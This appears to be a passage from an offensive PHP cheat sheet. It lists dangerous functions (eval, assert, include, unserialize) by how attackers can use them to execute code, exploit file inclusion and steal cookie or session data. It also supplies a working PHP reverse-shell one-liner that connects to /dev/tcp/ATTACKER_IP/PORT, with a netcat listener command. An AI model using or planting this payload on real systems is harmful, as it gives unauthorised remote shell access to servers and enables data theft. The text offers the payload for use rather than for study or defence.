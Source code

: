 ***

#### 🐚 Dangerous PHP

* `eval($php_code)` → Executes PHP code string
* `assert($php_code)` → Similar to eval()
* `preg_replace('/.*/e', ...)` → (old trick, code execution)

***

#### 📂 File Handling

* `include($file)` → Includes a file
* `require($file)` → Like include but fatal error on fail
* `file_get_contents($f)` → Reads file into string
* `highlight_file($f)` → Shows PHP source highlighted

***

#### 🔐 Useful for Exploits

* `md5()` / `sha1()` → Hashing (password checks)
* `base64_encode()` / `base64_decode()` → Obfuscation tricks
* `serialize()` / `unserialize()` → PHP Object Injection target

***

✅ With these you can:

1. Collect info → `phpinfo(), $_SERVER, scandir()`
2. Execute code → `system(), shell_exec(), eval()`
3. Exploit inclusion → `include(), require()`
4. Steal/modify data → `$_COOKIE, $_SESSION, file_get_contents()`

***

### 🔑 Important PHP Codes

***

#### 1. **Reverse Shell (classic one-liner)**

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'"); ?>

```

➡ Gives you a reverse shell back to your listener (`nc -lvnp PORT`).

Replace `ATTACKER_IP` with your IP.

***

#### 2. **PHP Info**

```php
<?php phpinfo(); ?>

```

